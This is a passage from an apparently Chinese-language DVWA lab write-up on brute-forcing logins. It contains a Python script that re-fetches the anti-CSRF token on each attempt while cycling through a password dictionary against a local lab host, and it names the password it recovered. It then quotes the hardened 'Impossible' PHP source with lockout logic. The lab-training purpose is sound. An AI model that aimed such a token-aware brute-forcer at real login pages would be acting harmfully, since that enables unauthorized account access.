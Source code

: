 ```python
    user_token = input[0]['value']
    return user_token


user_token = get_token(requrl, header)
i = 0

with open(file='/Users/optimus/tools/dict/passwords_quick.txt', 'r') as f:
    for line in f.readlines():
        requrl = 'http://172.16.34.167/dvwa/vulnerabilities/brute/?username=admin&password=' + \
            line + '&Login=Login&user_token=' + user_token
        i += 1
        print(i, 'admin', line.strip(), end='  ')
        user_token = get_token(requrl, header)
        if(i == len(f.readlines())):
            break

```

运行结果：

<img src="https://superj.oss-cn-beijing.aliyuncs.com/20200214220117.png" style="zoom:50%;" />

通过返回长度，可以判断`账号/密码`:`admin/password`。

## Impossible

```php
<?php

if( isset( $_POST[ 'Login' ] ) ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Sanitise username input
    $user = $_POST[ 'username' ];
    $user = stripslashes( $user );
    $user = mysql_real_escape_string( $user );

    // Sanitise password input
    $pass = $_POST[ 'password' ];
    $pass = stripslashes( $pass );
    $pass = mysql_real_escape_string( $pass );
    $pass = md5( $pass );

    // Default values
    $total_failed_login = 3;
    $lockout_time       = 15;
    $account_locked     = false;

    // Check the database (Check user information)
    $data = $db->prepare( 'SELECT failed_login, last_login FROM users WHERE user = (:user) LIMIT 1;' );
    $data->bindParam( ':user', $user, PDO::PARAM_STR );
    $data->execute();
    $row = $data->fetch();

    // Check to see if the user has been locked out.
    if( ( $data->rowCount() == 1 ) && ( $row[ 'failed_login' ] >= $total_failed_login ) )  {
        // User locked out.  Note, using this method would allow for user enumeration!
        //echo "<pre><br />This account has been locked due to too many incorrect logins.</pre>";

        // Calculate when the user would be allowed to login again
        $last_login = $row[ 'last_login' ];
```
